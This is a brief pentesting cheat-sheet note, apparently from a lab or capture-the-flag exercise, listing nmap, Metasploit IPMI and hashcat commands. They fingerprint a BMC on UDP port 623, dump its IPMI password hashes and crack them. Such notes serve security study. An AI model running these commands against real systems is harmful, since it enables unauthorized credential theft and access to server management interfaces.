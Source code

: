 #Helpful
```bash
sudo nmap -sU -p623 10.129.9.30 -sV -v
msfconsole -q
use auxiliary/scanner/ipmi/ipmi_version
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

- set the proper options (hashcat or john files)

- Brew install hashcat (Cracked this with silicon in less than 2 min)
```bash
hashcat -m 7300 -a 3 crackme.txt

300.2 MH/s
```